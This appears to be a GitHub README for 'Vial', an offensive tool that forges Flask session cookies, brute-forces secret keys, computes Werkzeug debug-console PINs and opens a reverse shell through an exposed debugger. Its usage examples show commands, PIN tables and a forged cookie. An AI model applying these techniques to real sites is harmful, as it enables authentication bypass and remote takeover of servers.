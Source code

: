 # The Vial Project

<p align="center">
    <a href="https://github.com/CopernicusPY/vial/stargazers"><img src="https://img.shields.io/github/stars/CopernicusPY/vial?colorA=363a4f&colorB=b7bdf8&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/issues"><img src="https://img.shields.io/github/issues/CopernicusPY/vial?colorA=363a4f&colorB=f5a97f&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/contributors"><img src="https://img.shields.io/github/contributors/CopernicusPY/vial?colorA=363a4f&colorB=a6da95&style=for-the-badge"></a>
</p>

Vial is a `blazing fast python framework` focused on exploiting [Flask](https://flask.palletsprojects.com/en/2.2.x/) applications. 

It allows efficient session cookie ["forging"](https://en.m.wikipedia.org/wiki/Session_hijacking) and decoding 

(Can be useful for understanding the applications structure). 

It also makes it possible to automatically obtain and bruteforce [session](https://flask.palletsprojects.com/en/2.2.x/quickstart/#sessions) keys.

## Introducing: PIN generation

Stop wasting your time gathering *this* and *that* around your victim's application.
With **Vial**'s new feature you can just sit back and it will do the heavy lifting for you (*at least that's the goal*).
**Vial** now comes with a default configuration file (found under `src/vial/config.toml`)
which contains a list of possible public bits which are required to generate the PIN.
Now, if you already know the private bits then good for you! Just fill the `config.toml` and you are good to go.
I plan on exploiting arbitrary file read in order to automatically obtain private bits for you (we people are lazy).
Read more below (see Usage).

## Introducing: Remote Code Execution

**Vial**'s new feature is the remote code execution utility that abuses [Werkzeug](https://werkzeug.palletsprojects.com/en/2.2.x/)'s [debug console](https://werkzeug.palletsprojects.com/en/2.2.x/debug/), when left activated in a production environment. 

The debugger's console is sometimes protected by a PIN which is generated in the servers side in a [deterministic](https://en.m.wikipedia.org/wiki/Deterministic_algorithm) way using a combination of public and possibly non-public information of the server/website project itself. 

To reverse the PIN these "secret" and "public" bits are required although can be obtained by exploiting other vulnerabilities such as **arbitary file read**/**path traversal** or through phishing campaigns (less common).

**Vial** also accepts already obtained application PIN's. After collecting the PIN it sends a malicious request to the target forcing him to connect to a previously started TCP Server giving the attacker a shell. 

(This can be achieved through manually interacting with the web browser although its better to just stay in your terminal isn't it?)

# Usage

Vial runs as a `python module`.

For a list of all possible options, run the following command

>$ python -m vial

## (NEW) PIN generation
To generate a Werkzeug **PIN** from a configuration file you can use the **PIN** mode.
The `--config/-c` parameter is mandatory for the mode to work. If not provided, vial will throw a critical error and exit.

> **NOTE**
> The configuration file must **STRICTLY** follow the structure of the default. 
> Please do not create your own configuration file if you are not sure and just stick to editing the default one.

```bash
$ python -m vial --config <path/to/config.toml
[?] Select an action [encode/decode/pin]: pin
[17:00:00] INFO     Using config -> config.toml:                                                               utils.py:196
                    {'usernames': ['alice'], 'modnames': ['flask.app', 'werkzeug.debug'], 'appnames':                      
                    ['wsgi_app', 'DebugApplication', 'Flask'], 'paths': [''], 'platform': '', 'node_uuid':                 
                    [''], 'machine_id': ['']}                                                                              
                           Werkzeug Possible PINs                            
┏━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ PINs        ┃ Combinations                                                ┃
┡━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ 145-111-627 │ ('alice', 'flask.app', 'wsgi_app', '', '', '')              │
│ 492-601-742 │ ('alice', 'flask.app', 'DebugApplication', '', '', '')      │
│ 492-117-935 │ ('alice', 'flask.app', 'Flask', '', '', '')                 │
│ 176-573-905 │ ('alice', 'werkzeug.debug', 'wsgi_app', '', '', '')         │
│ 115-518-024 │ ('alice', 'werkzeug.debug', 'DebugApplication', '', '', '') │
│ 459-034-107 │ ('alice', 'werkzeug.debug', 'Flask', '', '', '')            │
└─────────────┴─────────────────────────────────────────────────────────────┘
```

## Fetching and Decoding session cookies

It is possible to locally decode session data since Flask cookies are **signed** rather than **encrypted**. 
For this you can select the `decode`  mode.

Session cookies can be obtained by inspecting HTTP requests using a proxy. The default name for the cookies is simply, `"session"`.

```bash
$ python -m vial
[?] Select an action [decode/encode] decode 
[?] Enter the session cookie eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU

{"loggedIn": false} 
```

You can also use Vial's automatic session fetching utility by passing the `--from` argument.  

> **Note** 

> Not all pages of a web application return a session.  

> Make sure to pass a **URL** that it does. 

>$ python -m vial --from "https://example.com/login" 

```bash
[?] Select an action [decode/encode] decode 
[INFO] Server returned HTTP 302 (FOUND)  
[INFO] Succesfully fetched session cookie: 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU 

{"loggedIn": false} 
```

## Signing (Session Forging)

Once you've obtained the server's secret key that was used to encode the session data, you'll be able to forge your own. For this, you can use the `encode` mode.

```bash
$ python -m vial
[?] Select an action [decode/encode] encode
[?] Enter the session data to encode "{'loggedIn': True}"
[?] Enter the secret key secret-key
[INFO] Succesfully forged the cookie

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6dHJ1ZSwiaWF0IjoxNjcwNzkxNTQxfQ.c1HQAnTKOcA7chGpgwEndM4kuA2O-ap_nJWdLNmijw0
```
